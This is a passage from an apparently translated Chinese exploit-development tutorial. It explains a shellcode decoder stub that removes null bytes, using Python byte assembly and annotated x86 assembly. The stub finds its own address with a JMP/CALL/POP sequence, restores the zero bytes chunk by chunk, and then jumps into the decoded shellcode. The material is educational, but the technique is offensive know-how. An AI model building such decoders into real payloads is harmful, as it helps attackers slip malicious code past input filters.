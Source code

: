 `bytes_blocks`是数组：

```
[missing_byte1, num_blocks1, missing_byte2, num_blocks2, ...]

```

我们在之前已经讨论过，但是没有配对。

注意代码始于跳过`bytes_blocks`的`JMP SHORT`指令。为了实现该操作，`len(bytes_blocks)`必须小于或等于`0x7F`。但是正如你所看到的，`len(bytes_blocks)` 也出现在另一条指令中：

```
0x8D, 0x5F, -(len(bytes_blocks) + 5) & 0xFF,        #   LEA EBX, [EDI + (bytes - here)]

```

这里要求`len(bytes_blocks)` 小于或等于`0x7F – 5`，因此这是决定性的条件。如果条件违规，则：

```
if len(bytes_blocks) > 0x7f - 5:
# Can't assemble "LEA EBX, [EDI + (bytes-here)]" or "JMP skip_bytes".
return None

```

进一步审计代码：

```
JMP SHORT skip_bytes
bytes:
  ...
skip_bytes:
  CALL $ + 4                                  ; PUSH "here"; JMP "here"-1
here:
  (FF)C0 = INC EAX                            ; not important: just a NOP
  POP EDI                                     ; EDI = absolute address of "here"
  MOV ECX, <xor value 1 for shellcode len>
  XOR ECX, <xor value 2 for shellcode len>    ; ECX = shellcode length
  LEA EBX, [EDI + (bytes - here)]             ; EBX = absolute address of "bytes"
  ADD EDI, shellcode_begin - here             ; EDI = absolute address of the shellcode
loop1:
  MOV AL, 0FEh                                ; AL = 254
  MUL AL, BYTE PTR [EBX+1]                    ; AX = 254 * current num_blocksX = num bytes
  MOVZX EDX, AX                               ; EDX = num bytes of the current chunk
  XOR ESI, ESI                                ; ESI = 0
  CLD                                         ; tells STOSB to go forwards
loop2:
  MOV AL, BYTE PTR [EDI]                      ; AL = current byte of shellcode
  CMP AL, BYTE PTR [EBX]                      ; is AL the missing byte for the current chunk?
  CMOVE EAX, ESI                              ; if it is, then EAX = 0
  STOSB                                       ; replaces the current byte of the shellcode with AL
  DEC ECX                                     ; ECX -= 1
  JE shellcode_begin                          ; if ECX == 0, then we're done!
  DEC EDX                                     ; EDX -= 1
  JNE loop2                                   ; if EDX != 0, then we keep working on the current chunk
  INC EBX                                     ; EBX += 1  (moves to next pair...
  INC EBX                                     ; EBX += 1   ... missing_bytes, num_blocks)
  JMP loop1                                   ; starts working on the next chunk
shellcode_begin:

```

